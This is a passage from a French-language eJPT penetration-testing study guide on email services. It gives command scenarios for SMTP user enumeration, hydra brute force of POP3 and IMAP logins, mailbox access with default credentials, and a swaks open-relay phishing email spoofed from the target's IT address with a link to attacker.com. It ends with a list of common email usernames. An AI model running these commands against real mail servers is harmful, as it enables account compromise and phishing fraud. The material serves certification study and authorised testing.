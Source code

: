 
## 🎯 5. Cas d'usage spécifiques eJPT

### Scénario 1: SMTP avec énumération utilisateurs
```bash
# 1. Découverte SMTP
nmap -p25,587 -sV target

# 2. Énumération utilisateurs
smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/Names/names.txt -t target

# 3. Test open relay
nmap --script smtp-open-relay target

# 4. Si utilisateurs trouvés → Brute force POP3/IMAP
hydra -L found_users.txt -P passwords.txt pop3://target
```

### Scénario 2: Serveur email avec credentials faibles
```bash
# 1. Discovery email services
nmap -p25,110,143,587,993,995 target

# 2. Test credentials courants
hydra -l admin -p admin pop3://target
hydra -l admin -p password imap://target

# 3. Si succès → Accès mailbox
telnet target 110
USER admin
PASS password
LIST
RETR 1
```

### Scénario 3: Open relay + phishing
```bash
# 1. Test open relay
swaks --to external@gmail.com --from CEO@target.com --server target

# 2. Si open relay → Phishing interne
swaks --to all-users@target.com --from IT@target.com --server target \
      --header "Subject: Password Reset Required" \
      --body "Click here: http://attacker.com/phish.php"
```

---

## 📋 6. Wordlists email spécialisées

### Utilisateurs email courants
```bash
cat > email_users.txt << EOF
admin
administrator
root
postmaster
mail
webmaster
info
contact
support
sales
```